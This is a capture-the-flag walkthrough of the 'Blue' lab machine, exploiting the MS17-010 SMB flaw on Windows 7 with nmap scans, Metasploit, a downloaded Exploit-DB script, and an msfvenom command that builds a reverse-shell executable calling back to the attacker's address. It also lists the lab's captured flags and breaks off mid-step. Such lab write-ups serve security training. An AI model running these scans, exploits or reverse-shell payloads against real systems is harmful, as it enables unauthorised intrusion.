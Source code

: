 # Blue
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, let's scan the host given using nmap.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210548655-c761e148-c1bf-4b32-a17e-8c1a72c690fb.png)


![image](https://user-images.githubusercontent.com/70703371/210548679-5dd82615-0a4e-44e9-a4bf-2cd51961c46b.png)


2. Based from the output, we know that port 445 shall be our interests, because it seems running some types of network shares. Remember that 139 & 445 is SMB port, so let's check nmap scripts about `smb-vuln`. Now only what now we know that we're working with `windows 7`.
3. Simply run this command:

```
ls /usr/share/nmap/scripts | grep smb-vuln
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210548775-11ed93fa-0149-40a9-920a-1257c94d9989.png)


4. Now let's use all of them for port 139 & 445.

```
nmap --script smb-vuln* -p 139,445 10.10.10.40
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210548814-20b88593-4861-4a8e-a675-e21edf35b868.png)


5. As we can see the vuln here is we can do RCE, also we got the link references:

![image](https://user-images.githubusercontent.com/70703371/210548936-bad60e4f-f1df-4909-83f4-d59a102c7e0e.png)


6. Anyway, i will try to use the **metasploit** first, then i'll try to solve it without metasploit.

### WITH METASPLOIT

1. First, open **msfconsole**, then input this command -> `search ms17-010`

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210549303-6f6bd9b9-3f1f-410c-b3af-6df4c444cee0.png)


2. The modules we want to use must be `0` , `2`, and `3`. But let's try with `0` and `2` first.

```
Reason:
The 1st module -> Is intended for windows 8, which is not the system.
The 3rd module -> Is auxiliary, though it says command execution, let's put is last. 
The 4th module -> Is a scanner.
The 5th module -> Is using a backdoor (must be on the system already).
```

3. Let's type `use 0`.

> RESULT - set the RHOSTS and lhost

![image](https://user-images.githubusercontent.com/70703371/210550559-ac898d76-deac-4ca8-8222-543969989a1d.png)

4. Type `exploit`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210550767-4e327376-f153-4d65-bfdf-3e1ffbb8dbcb.png)


![image](https://user-images.githubusercontent.com/70703371/210550828-15d51f7d-6a90-4a73-96f7-c55d5ab6a9d5.png)


5. Great! Turns out we're already the root.
6. Let's set the mode to stable shell.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210550911-30353853-3911-433f-91c0-2970f22412fb.png)


7. When i tried to list all the directories, we got many directories. But our interest here is to jump to the `Users` or `users` directory.
8. Let's try one of them.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551510-4fe09bf9-069e-4536-b46f-1988c57e440a.png)


9. Got it, now let's lists it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551605-019e6678-2cef-4fb8-a707-34de82dfb9fc.png)


10. Let's jump to `harris` -> `Desktop`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551720-de8cc37e-ad94-460d-9dd5-86acebb56073.png)


![image](https://user-images.githubusercontent.com/70703371/210551749-b6f42d66-1e49-4390-b906-5e30048ebe5c.png)


11. Got the user flag!

## USER FLAG (WITH METASPLOIT)

```
32e24b1a214c952a07446d5317505f5a
```

12. Now to get the root, let's jump to the `Administrator` directory, then go to `Desktop`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551976-4e651bfd-1885-4582-b0ed-53acb1b7fad5.png)


![image](https://user-images.githubusercontent.com/70703371/210552024-5810ae0c-fcf4-4075-af40-2de49d59ad91.png)


13. Got the root flag!

## ROOT FLAG (WITH METASPLOIT)

```
0f6cf23df2d2c550f6c7f42eab29077c
```


### WITHOUT METASPLOIT APPROACH

1. Now without the metasploit, let's see if there's any python script we can use in the `exploitdb`.

```
searchsploit ms17-010
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210553394-148e224b-539a-4d3b-ba17-c575aea9bfbb.png)


2. Since we're working with windows 7, let's download this one:

![image](https://user-images.githubusercontent.com/70703371/210553802-74515538-e44c-40e6-bd79-0f0d65091f96.png)


```
searchsploit -m 42315
```


![image](https://user-images.githubusercontent.com/70703371/210554128-f7c81f1a-c0b9-4039-8ffa-01978ed64d5e.png)


3. Anyway let's try to run the script to see if there are any python requirement we need to install first.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210554324-943b11a3-a895-43ed-90bb-7994c09a1183.png)


> SOLUTION - THE LINK IS COMMENTED INSIDE THE SCRIPT

![image](https://user-images.githubusercontent.com/70703371/210554824-fa5a49a4-151d-46ae-95f1-a1257efec6f5.png)


4. Since the repository is no longer available, i used this one:

```
https://github.com/worawit/MS17-010/blob/master/mysmb.py
```

5. Hence we got 2 scripts now.

![image](https://user-images.githubusercontent.com/70703371/210555874-7f47e553-e85c-4ff0-9698-332d4e5bef0e.png)


6. Next, we need to use **msfvenom** to generate a simple executeable which has reverse shell payload.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 -f exe > reverseShell.exe
```

> RESULT


![image](https://user-images.githubusercontent.com/70703371/210556365-cb542630-1c0b-4676-acee-0c03d90141d9.png)


7. Now we need to change the exploit to add credentials, since we don't have any creds, let's check with `enum4linux` whether the machine allows us to enter guest username.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210557036-2218b368-de11-4687-b0d7-44b598d5088c.png)


8. Great we're allowed then.
9. Now let's do few changes for 42315.py

![image](https://user-images.githubusercontent.com/70703371/210558184-96b90145-7683-4579-aac2-1fe0ac845d17.png)





